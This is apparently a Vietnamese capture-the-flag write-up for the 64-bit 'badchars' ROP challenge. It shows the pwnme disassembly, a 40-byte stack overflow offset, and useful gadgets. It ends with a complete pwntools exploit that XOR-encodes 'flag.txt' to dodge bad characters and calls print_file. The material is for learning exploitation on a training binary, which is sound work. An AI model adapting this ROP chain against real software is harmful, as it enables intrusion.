

**1. Tìm lỗi**

Chạy thử chương trình ta được:


Chương trình cho phép nhập vào một chuỗi và kết thúc ngay sau đó

Sử dụng lệnh checksec để kiểm tra


Ta có CANARY đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra


Ta thấy là file elf 64bit -> Mở bằng ida64 ta có


Hàm pwnme:

```
   0x00007ffff7dc58fa <+0>:     push   rbp
   0x00007ffff7dc58fb <+1>:     mov    rbp,rsp
   0x00007ffff7dc58fe <+4>:     sub    rsp,0x40
   0x00007ffff7dc5902 <+8>:     mov    rax,QWORD PTR [rip+0x2006cf]        # 0x7ffff7fc5fd8
   0x00007ffff7dc5909 <+15>:    mov    rax,QWORD PTR [rax]
   0x00007ffff7dc590c <+18>:    mov    ecx,0x0
   0x00007ffff7dc5911 <+23>:    mov    edx,0x2
   0x00007ffff7dc5916 <+28>:    mov    esi,0x0
   0x00007ffff7dc591b <+33>:    mov    rdi,rax
   0x00007ffff7dc591e <+36>:    call   0x7ffff7dc57e0 <setvbuf@plt>
   0x00007ffff7dc5923 <+41>:    lea    rdi,[rip+0x17a]        # 0x7ffff7dc5aa4
   0x00007ffff7dc592a <+48>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc592f <+53>:    lea    rdi,[rip+0x187]        # 0x7ffff7dc5abd
   0x00007ffff7dc5936 <+60>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc593b <+65>:    lea    rax,[rbp-0x40]
   0x00007ffff7dc593f <+69>:    add    rax,0x20
   0x00007ffff7dc5943 <+73>:    mov    edx,0x20
   0x00007ffff7dc5948 <+78>:    mov    esi,0x0
   0x00007ffff7dc594d <+83>:    mov    rdi,rax
   0x00007ffff7dc5950 <+86>:    call   0x7ffff7dc57b0 <memset@plt>
   0x00007ffff7dc5955 <+91>:    lea    rdi,[rip+0x16c]        # 0x7ffff7dc5ac8
   0x00007ffff7dc595c <+98>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5961 <+103>:   lea    rdi,[rip+0x181]        # 0x7ffff7dc5ae9
   0x00007ffff7dc5968 <+110>:   mov    eax,0x0
   0x00007ffff7dc596d <+115>:   call   0x7ffff7dc57a0 <printf@plt>
   0x00007ffff7dc5972 <+120>:   lea    rax,[rbp-0x40]
   0x00007ffff7dc5976 <+124>:   add    rax,0x20
   0x00007ffff7dc597a <+128>:   mov    edx,0x200
   0x00007ffff7dc597f <+133>:   mov    rsi,rax
   0x00007ffff7dc5982 <+136>:   mov    edi,0x0
   0x00007ffff7dc5987 <+141>:   call   0x7ffff7dc57c0 <read@plt>
   0x00007ffff7dc598c <+146>:   mov    QWORD PTR [rbp-0x40],rax
   0x00007ffff7dc5990 <+150>:   mov    QWORD PTR [rbp-0x38],0x0
   0x00007ffff7dc5998 <+158>:   jmp    0x7ffff7dc59eb <pwnme+241>
   0x00007ffff7dc599a <+160>:   mov    QWORD PTR [rbp-0x30],0x0
   0x00007ffff7dc59a2 <+168>:   jmp    0x7ffff7dc59d5 <pwnme+219>
   0x00007ffff7dc59a4 <+170>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59a8 <+174>:   movzx  ecx,BYTE PTR [rbp+rax*1-0x20]
   0x00007ffff7dc59ad <+179>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59b1 <+183>:   mov    rdx,QWORD PTR [rip+0x200628]        # 0x7ffff7fc5fe0
   0x00007ffff7dc59b8 <+190>:   movzx  eax,BYTE PTR [rdx+rax*1]
   0x00007ffff7dc59bc <+194>:   cmp    cl,al
   0x00007ffff7dc59be <+196>:   jne    0x7ffff7dc59c9 <pwnme+207>
   0x00007ffff7dc59c0 <+198>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59c4 <+202>:   mov    BYTE PTR [rbp+rax*1-0x20],0xeb
   0x00007ffff7dc59c9 <+207>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59cd <+211>:   add    rax,0x1
   0x00007ffff7dc59d1 <+215>:   mov    QWORD PTR [rbp-0x30],rax
   0x00007ffff7dc59d5 <+219>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59d9 <+223>:   cmp    rax,0x3
   0x00007ffff7dc59dd <+227>:   jbe    0x7ffff7dc59a4 <pwnme+170>
   0x00007ffff7dc59df <+229>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59e3 <+233>:   add    rax,0x1
   0x00007ffff7dc59e7 <+237>:   mov    QWORD PTR [rbp-0x38],rax
   0x00007ffff7dc59eb <+241>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59ef <+245>:   mov    rax,QWORD PTR [rbp-0x40]
   0x00007ffff7dc59f3 <+249>:   cmp    rdx,rax
   0x00007ffff7dc59f6 <+252>:   jb     0x7ffff7dc599a <pwnme+160>
   0x00007ffff7dc59f8 <+254>:   lea    rdi,[rip+0xed]        # 0x7ffff7dc5aec
   0x00007ffff7dc59ff <+261>:   call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5a04 <+266>:   nop
   0x00007ffff7dc5a05 <+267>:   leave
   0x00007ffff7dc5a06 <+268>:   ret
   ```

Ta thấy khoảng cách từ biến cho nhập đến ret là 0x20 + 0x8 = 40 nhưng chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn từ biến đến ret

Hàm usefulFunction:



Hàm print_file:


Ta thấy ở hàm print_file khi truyền chuỗi tên file vào rdi thì hàm sẽ in nội dụng của file ra nên chúng ta có thể truyền chuỗi flag.txt vào để lấy giá trị flag

Hàm usefulGadgets:


Ở hàm này địa chỉ 0x0000000000400634 chứa câu lệnh mov [r13], r12 nên có thể tận dụng để truyền chuỗi flag.txt vào r13 rồi truyền qua rdx

Để gán dữ liệu vào r13 và r12 thì chúng ta cần pop chúng ra:


Ở địa chỉ 0x000000000040069c đã có câu lệnh pop luôn cả r12 và r13

**2. Ý tưởng**

Ở ngay lúc chạy chương trình đã có báo các ký tự xấu là x, g, a, ., mà chuỗi flag.txt lại có 4 cả nên không thể truyền trực tiếp vào được.

Theo gợi ý của bài thì chúng ta có thể thay đổi chuỗi flag.txt thành giá trị khác để vượt qua được badchar rồi trả lại chuỗi flag.txt và gán vào thanh ghi

Vậy ta có thứ tự thực hiện như sau:

- Truyền chuỗi đã vượt qua được badchars vào thanh ghi r12, r13

- Dùng hàm tạo riêng để trở về chuỗi flag.txt rồi gán vào r14

- Truyền dữ liệu vào print_file qua thanh ghi rdi

**3. Viết script**

Tìm địa chỉ còn trống để lưu chuỗi vào


Ta có địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

r = process("./badchars")

def ascii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def doiVe0x(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(doiVe0x(ascii2hex(value)), 16)

def processBadchar(value):
    result = ""
    for i in value:
        result += chr(int(ascii2hex(i), 16) ^ 2)
    return process(result)


pop_r12 = 0x000000000040069c
r12 = processBadchar("flag.txt")
r13 = 0x601030
mov_r13_r12 = 0x400634
xor_r14_r15 = 0x400628
pop_r14 = 0x00000000004006a0
pop_rdi = 0x00000000004006a3
print_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop_r12)
payload += p64(r12) + p64(r13) + p64(0) + p64(0)
payload += p64(mov_r13_r12)

for i in range(8):
    payload += p64(pop_r14)
    payload += p64(2) + p64(r13 + i)
    payload += p64(xor_r14_r15)

payload += p64(pop_rdi)
payload += p64(r13)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**


